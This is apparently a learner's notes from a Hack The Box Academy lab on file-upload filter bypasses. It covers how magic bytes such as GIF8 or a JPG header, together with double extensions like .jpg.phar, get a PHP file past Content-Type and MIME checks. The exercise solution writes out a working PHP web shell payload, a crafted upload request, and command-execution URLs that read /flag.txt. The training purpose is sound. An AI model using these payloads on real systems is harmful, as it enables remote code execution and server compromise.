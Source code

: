 As we can see, the MIME types are similar to the ones found in the Content-Type headers, but their source is different, as PHP uses the mime_content_type() function to get a file's MIME type. Let's try to repeat our last attack, but now with an exercise that tests both the Content-Type header and the MIME type:
![file_uploads_bypass_content_type_request](https://academy.hackthebox.com/storage/modules/136/file_uploads_bypass_content_type_request.jpg)

Once we forward our request, we notice that we get the error message **Only images are allowed**. Now, let's try to add `GIF8` before our PHP code to try to imitate a GIF image while keeping our file extension as `.php`, so it would execute PHP code regardless.

This time we get File successfully uploaded, and our file is successfully uploaded to the server. We can now visit our uploaded file, and we will see that we can successfully execute system commands by `http://SERVER_IP:PORT/profile_images/shell.php?cmd=id`.

Note: We see that the command output starts with `GIF8` , as this was the first line in our PHP script to imitate the GIF magic bytes, and is now outputted as a plaintext before our PHP code is executed.

We can use a combination of the two methods discussed in this section, which may help us bypass some more robust content filters. For example, we can try using an **Allowed MIME type with a disallowed Content-Type**, an **Allowed MIME/Content-Type with a disallowed extension**, or a **Disallowed MIME/Content-Type with an allowed extension**, and so on. Similarly, we can attempt other combinations and permutations to try to confuse the web server, and depending on the level of code security, we may be able to bypass various filters.

### Exercise
The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

Solution: here we can use Burpsuite to bypass Client-Side security mitigation and check by Intruder which php extensions are not blacklisted. They are all php extensions that don't contains `php` word, furthermore, we must use the Double Extension technique. Then, we guarantee that the Content-Type header corresponds to image format like `image/jpg` and, for bypassing the MIME-Type check, we can create our PHP script and typing at the beginning of it the magic number of some image format, as JPG, in the following way:
```bash
printf "\xFF\xD8\xFF\xEE\n<?php system($_REQUEST['cybee']); ?>" > shell.jpg.phar
```
We upload this file by also manipulating, if needed, the client-side validation checks.
We can also write directly on Burp HTTP request the following:
```
Content-Disposition: form-data; name="uploadFile"; filename="test.jpg.phar"
Content-Type: image/jpeg

ÿØÿî
<?php system($_REQUEST['cybee']); ?>
```
Note: the line feed (or better, the new line) should be applied between the magic number and the PHP code, otherwise it does not work.

At the end, visit `http://SERVER_IP:PORT/profile_images/test.jpg.phar?cybee=cat%20/flag.txt`


# Other Upload Attacks
